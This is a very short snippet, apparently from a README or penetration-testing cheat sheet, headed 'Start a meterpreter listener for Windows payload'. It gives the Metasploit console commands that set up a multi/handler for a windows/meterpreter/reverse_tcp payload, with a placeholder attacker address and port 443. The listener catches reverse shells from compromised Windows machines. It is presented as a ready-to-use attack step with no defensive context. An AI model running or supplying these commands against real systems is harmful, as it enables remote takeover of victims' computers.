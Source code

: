 Start a meterpreter listener for Windows payload
------------------------------------------------
```bash
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 443
exploit
```
